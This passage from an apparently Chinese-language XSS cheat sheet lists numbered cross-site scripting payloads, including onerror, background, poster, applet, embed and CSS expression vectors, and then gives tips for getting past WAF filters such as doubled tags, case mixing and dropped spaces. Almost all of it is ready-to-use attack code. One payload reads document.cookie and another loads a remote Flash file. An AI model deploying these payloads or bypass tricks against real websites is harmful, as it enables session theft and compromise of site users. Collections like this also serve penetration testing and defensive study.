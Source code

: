     ```html
    <audio src=x onerror=alert(47)>
    ```

24. background属性

    ```html
    <table background=javascript:alert(1)></table> // 在Opera 10.5和IE6上有效
    ```

    ​

25. poster属性

    ```html
    <video poster=javascript:alert(1)//></video> // Opera 10.5以下有效
    ```

26. code属性

    ```html
    <applet code="javascript:confirm(document.cookie);"> // Firefox有效
    ```

    ```html
    embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
    ```

27. expression属性

    ```html
    <img style="xss:expression(alert(0))"> // IE7以下

    <div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7以下

    <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
    ```





## 0x02 一些过waf技巧

- 单次过滤规则绕过：有些规则仅进行一次过滤替换，可以通过双重复写绕过`<scr<script>ipt>`

- 大小写绕过：`<sCript>`

- alert被过滤，可以尝试prompt和confirm

- 没有引号和分号：`<IMG SRC=javascript:alert('XSS')>`

- 空格被过滤：`<img/src=""onerror=alert(2)> <svg/onload=alert(2)></svg>`

- 反引号妙用：

- 长度限制时： ```<q/oncut=alert(1)>//在限制长度的地方很有效```

- 单引号及双引号被过滤情况: `<script>alert(/jdq/)</script> //用双引号会把引号内的内容单独作为内容 用斜杠，则会连斜杠一起回显`
